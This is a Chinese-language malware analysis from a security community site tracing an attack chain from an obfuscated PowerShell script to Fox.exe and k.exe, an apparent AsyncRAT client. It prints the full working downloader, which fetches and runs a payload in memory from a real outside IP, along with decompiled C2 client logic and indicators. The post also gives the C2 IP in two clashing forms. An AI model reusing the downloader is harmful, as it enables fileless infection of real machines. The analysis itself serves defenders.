# 恶意程序分析：基于PowerShell的恶意软件攻击链与AsyncRAT关联活动-先知社区

> **来源**: https://xz.aliyun.com/news/17449  
> **文章ID**: 17449

---

# powershell脚本分析

捕获到的恶意程序为PowerShell脚本文件，其内容如下：



```
$dguetBWq0K = New-Object System.Net.WebClient

$WawglCJmeM = "svPs2hsvPs2tsvPs2tsvPs2psvPs2://svPs29svPs22svPs2.svPs22svPs25svPs25svPs2.svPs28svPs25svPs2.svPs22svPs2/svPs2FsvPs2osvPs2xsvPs2.svPs2esvPs2xsvPs2esvPs2".Replace("svPs2", "")

$R9u3at = $dguetBWq0K.DownloadData($WawglCJmeM)

$VCfRTZ = [System.Reflection.Assembly]::Load($R9u3at)

$TWvCaa = $VCfRTZ.EntryPoint

$TWvCaa.Invoke($null, @())
```

1.ps脚本首先创建WebClient对象$dguetBWq0K = New-Object System.Net.WebClient，用于下载文件的WebClient实例

2.解码混淆的URL$WawglCJmeM = "svPs2hsvPs2tsvPs2tsvPs2psvPs2://svPs29svPs22svPs2.svPs22svPs25svPs25svPs2.svPs28svPs25svPs2.svPs22svPs2/svPs2FsvPs2osvPs2xsvPs2.svPs2esvPs2xsvPs2esvPs2".Replace("svPs2", "")替换所有svPs2为空字符串后，URL解析为：http://92.225.85.2/Fox.exe

3.下载恶意负载$R9u3at = $dguetBWq0K.DownloadData($WawglCJmeM)从上述URL下载二进制数据（Fox.exe）

4.加载并执行程序集

```
$VCfRTZ = [System.Reflection.Assembly]::Load($R9u3at)
$TWvCaa = $VCfRTZ.EntryPoint
$TWvCaa.Invoke($null, @())
```

该恶意程序将下载的二进制数据作为.NET程序集动态加载到内存中，并通过反射机制执行。

# fox.exe


恶意程序fox.exe使用PDF文档图标进行伪装（扩展名与图标不匹配），诱导用户误判为无害文件，后续攻击者可能通过钓鱼邮件或伪装下载链接传播该文件，利用社会工程学手段诱骗执行

使用Detect It Easy (DIE) 工具分析，检测到以下特征：



该程序是一个.net的32位程序，使用dnSpy进行静态分析





fox.exe采用多层混淆（控制流+字符串加密+类型随机化）





该程序通过WebClient类从指定URL异步下载数据包。在此过程中，使用Wireshark网络协议分析工具对目标IP地址92.225.85.2的网络流量进行了实时监控和数据包捕获



fox.exe 进程通过 HTTP/HTTPS 从远程服务器 92.225.85.2 下载并存储了名为 k.exe 的可执行文件

# k.exe


使用Detect It Easy (DIE) 工具分析，检测到以下特征：



2025年3月25日编译的程序，该程序是一个.net的32位程序，使用dnSpy进行静态分析



```
public static void Main()
{
    Thread.Sleep(Settings.Sleep * 1000); // 延迟3秒启动
    try
    {
        // 解密所有配置参数
        Settings.Hosts = AlgorithmAES.Decrypt(Settings.Hosts);
        // ...其他字段解密
    }
    catch { Environment.Exit(0); }

    if (!Helper.CreateMutex()) // 创建互斥锁
        Environment.Exit(0);

    Helper.PreventSleep(); // 阻止系统休眠
    // 启动两个线程：
    // 1. 监控用户活动（LastAct）
    // 2. 维持与C2服务器的连接
    Thread thread = new Thread(() => Helper.LastAct());
    Thread thread2 = new Thread(() => 
    {
        while (true)
        {
            Thread.Sleep(随机3-10秒);
            if (!ClientSocket.isConnected)
            {
                ClientSocket.Reconnect(); // 断线重连
            }
        }
    });
    thread.Start();
    thread2.Start();
    thread2.Join();
}
```

该程序是一个典型的恶意软件主控模块，通过AES解密动态加载C2服务器配置（如IP、端口、密钥），启动后延迟3秒运行以规避沙箱检测。其核心功能包括：1）创建互斥锁确保单实例运行；2）阻止系统休眠维持持久化；3）启动双线程——监控用户活动识别真实环境，以及维持C2心跳连接（随机3-10秒间隔）并支持断线重连。程序采用无文件攻击技术，所有配置均加密存储，通过内存加载恶意载荷，具有高度隐蔽性

使用Wireshark网络协议分析工具对目标IP地址92.225.85.2的网络流量进行了实时监控和数据包捕获



恶意程序 k.exe 通过 TCP 协议与远程主机 92.255.85.2 的 4372 端口建立连接，并进行了网络通信



# 总结

该恶意攻击始于一个混淆的PowerShell脚本，通过WebClient下载并加载恶意程序Fox.exe。脚本采用字符串混淆（如svPs2），解码后获取真实URL（http://92.225.85.2/Fox.exe），并利用.NET反射机制在内存中执行，规避文件检测。Fox.exe伪装成PDF文档图标，采用多层混淆（控制流、字符串加密），功能包括：延迟3秒启动（绕过沙箱）、AES解密配置、创建互斥锁（确保单实例运行）、阻止系统休眠（维持持久化），并通过双线程监控用户活动及维持C2通信（心跳间隔3-10秒）。网络分析显示，恶意软件与C2服务器（92.255.85.2:4372，俄罗斯IP）建立TCP连接，传输加密数据。威胁情报表明该IP关联AsyncRAT、垃圾邮件及250个恶意C段IP


